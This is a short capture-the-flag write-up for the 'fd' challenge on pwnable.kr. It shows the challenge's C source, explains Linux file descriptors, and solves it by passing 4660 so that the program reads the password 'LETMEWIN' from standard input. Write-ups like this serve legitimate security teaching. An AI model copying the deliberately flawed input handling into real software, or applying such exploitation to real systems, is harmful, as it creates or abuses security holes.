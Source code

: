 # FD
This is the 1st challenge @ `pwnable.kr`
Let's Start!

## Source Code
Let's take a look at the source code of the program:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
	if(argc<2){
		printf("pass argv[1] a number\n");
		return 0;
	}
	int fd = atoi( argv[1] ) - 0x1234;
	int len = 0;
	len = read(fd, buf, 32);
	if(!strcmp("LETMEWIN\n", buf)){
		printf("good job :)\n");
		system("/bin/cat flag");
		exit(0);
	}
	printf("learn about Linux file IO\n");
	return 0;

}
```
The main function contains all the logic of the program:
- Takes a command line argument
- subtracts 4660 (or `0x1234`)
- using it as an `FD`
- reading 32 bytes out of it.
- compares the string to "LETMEWIN\n"

## About `File Descriptors` in Linux
`Chat-GPT` says:
*A file descriptor is a low-level integer handle used to identify an open file or other input/output resources, such as sockets or pipes.*
There are 3 pre-defined `FDs` that you can use:
- 0: Standard Input (`stdin`)
- 1: Standard Output (`stdout`)
- 2: Standard Error (`stderr`)
For example, you can read from `stdin` using this C code:
```c
char buf[32];
read(0, buf, 32);
```

## Exploit!
So, now you might think *But, how can I know the right FD?*.
Well, what if we make the program read from `STDIN`, we should be able to control input!
```
fd@pwnable:~$ ./fd 4660
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
```
And that is it! we have successfully exploited the program!